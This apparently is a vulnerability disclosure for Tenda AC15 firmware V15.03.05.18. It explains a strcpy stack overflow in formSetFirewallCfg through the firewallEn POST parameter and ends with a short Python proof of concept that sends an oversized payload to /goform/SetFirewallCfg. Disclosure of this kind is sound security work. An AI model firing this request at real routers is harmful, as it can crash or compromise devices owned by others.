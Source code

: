 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2710.html

## Affected version

AC15 V15.03.05.18

## Vulnerability details

The Tenda AC15 V15.03.05.18 firmware has a stack overflow vulnerability in the `formSetFirewallCfg` function. The `src` variable receives the `firewallEn` parameter from a POST request and is later assigned to the `dest` variable, which is fixed at 4 bytes. However, since the user can control the input of  `firewallEn`, the statement `strcpy(dest, src);` can cause a buffer overflow. The user-provided  `firewallEn` can exceed the capacity of the `dest` array, triggering this security vulnerability.

![image-20240305233936132](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240305233936132.png)

![image-20240314222233568](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240314222233568.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/SetFirewallCfg"
payload = b"a"*1000

data = {"firewallEn": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240314222336089](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240314222336089.png)
